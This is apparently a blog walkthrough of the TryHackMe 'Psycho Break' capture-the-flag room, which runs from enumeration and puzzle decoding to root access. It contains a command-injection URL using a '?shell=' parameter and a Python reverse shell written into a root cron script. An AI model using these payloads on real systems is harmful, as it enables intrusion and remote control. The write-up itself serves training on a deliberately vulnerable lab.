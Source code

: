 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
image: /assets/img/tryhackme/psychobreak/room_icon.jpeg
---
```



Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

## Task 1
---

![nmap](/assets/img/tryhackme/psychobreak/3.png)
<br>
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


## Task 2
---

![http_service](/assets/img/tryhackme/psychobreak/4.png)
<br><p> In the source page we can find the room name. Let’s go into the room.</p>

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<br>
<p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
<br>
<p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<br>
<p>At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text</p>

![decode](/assets/img/tryhackme/psychobreak/8.png)
<br>
<p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<br>
<p>In the source code of the page we can find a hint.<p>

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<br>
<p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>
gobuster dir -u http://<ip-address>/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100 
</pre>
<br>
<p>use gobuster with the medium wordlist to find the hidden directory.</p>

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
<br>
<p>After clicking on the link we are redirected to another page.</p>

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
<br>
<p>A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.</p>

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
<br>
<p>After clicking on the link, it redirects to another page.</p>

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
<br>
<p>After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….</p>

<pre>
http://<ip-address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls ..
</pre>

![dir_list](21.png)
<br>
<p>I downloaded the two files after moving into the other directory that was returned in the response.</p>

## Task 3
---
<br>
<p>The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.</p>

<pre>
binwalk -e image.jpg
</pre>
<br>
<p>After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).</p>

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
<br>
<p>Using the message that is decrypted  to extract the contents of the other image file with steghide.</p>

<pre>
steghide --extract -sf image_file.jpg
</pre>
<br>
<p>The text file gives the ftp credentials. Let’s login to ftp…</p>

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## Task 4
---
<br>
<p>I found two files in the ftp server and I downloaded using the get command.</p>

<pre>
get <file-name>
</pre>
<br> 
![program](/assets/img/tryhackme/psychobreak/30.png)

<br>
<p>After running the program file I found that it takes a word as a argument. So, I ran the bash script.</p>
<br>

```
for i in $(cat list.dic);
do
./program $i;
done
```

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
<br>
<p>There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().</p>


## Task 5
---
<br>
<p>The decoded text is the SSH password. Without further wait, let’s login to ssh.</p>

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
<br>
<p>We found the user.txt in the home directory and some other hidden files</p>

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
<br>
<p>After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.</p>

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

<br>
<p>So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.</p>

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
<br>
<p>We also got the root flag.</p>

## Bonus
---
<br>
![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

<br>
<p>The bonus task is to delete the user ruvik</p>

<pre>
userdel -r ruvik
</pre>
<br>
<p> Run this as root</p>

<p>That’s it folks. Happy Hacking!!! :sunglasses: </p>
